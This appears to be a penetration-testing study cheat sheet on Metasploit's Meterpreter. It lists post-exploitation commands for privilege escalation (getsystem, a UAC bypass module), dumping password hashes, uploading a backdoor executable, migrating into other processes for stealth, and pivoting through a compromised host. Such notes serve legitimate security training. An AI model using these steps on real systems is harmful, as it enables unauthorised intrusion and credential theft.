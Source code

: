 #### Meterpreter

- Meterpreter can both wait for a connection on the target
machine or connect back to the attacker machine. Its most
used configurations are `bind_tcp` and `reverse_tcp`.
- A single instance of MSFConsole can host multiple
Meterpreter sessions; this means that you can instance
multiple shells on your targets and switch between them.
You can switch from a Meterpreter session to the console
by using the `background` command.
- You can then list currently opened sessions by using the
`sessions -l` command.
- To resume a background session, you have to use the
`sessions -i <session number>` command.
* * *

#### Meterpreter shell
- The `sysinfo` command lets you retrieve information about the
exploited machine: name, operating system, architecture, system language and the Meterpreter version it is running.
- The `ifconfig` command prints the network configuration.
- You can check routing information with the `route` command.
- To know which user is running the process exploited by
Metasploit, you can use the `getuid` command.
- If the owner of the process does not have high privileges on the victim system, you can use the `getsystem` command.
- In modern Windows operating systems, the User Account Control policy prevents privilege escalation.We can bypass UAC by using bypassuac module.
Example: `use exploit/windows/local/bypassuac` and set options and execute by typing `exploit`.
- Dumping the password database:
` use post/windows/gather/hashdump`
Then type `exploit` to exploit the victim.
- Exploring victim computer: `pwd`, `cd C:\\`, `ls`.
- Downloading and uploading: `download HaxLogs.log /root/`, `upload /root/backdoor.exe C:\\Windows`

-  Type `shell` to run standard operating system shell.
- `migrate <process id>` to silently attach to another process to make ourself stealthier. We can see process by typing `ps`.
- `hashdump` for dumping password.
- `search -f congrats.txt` for searching congrats.txt file.
- `run autoroute -s 172.16.50.0/24` to create route through exploited machine.
* * *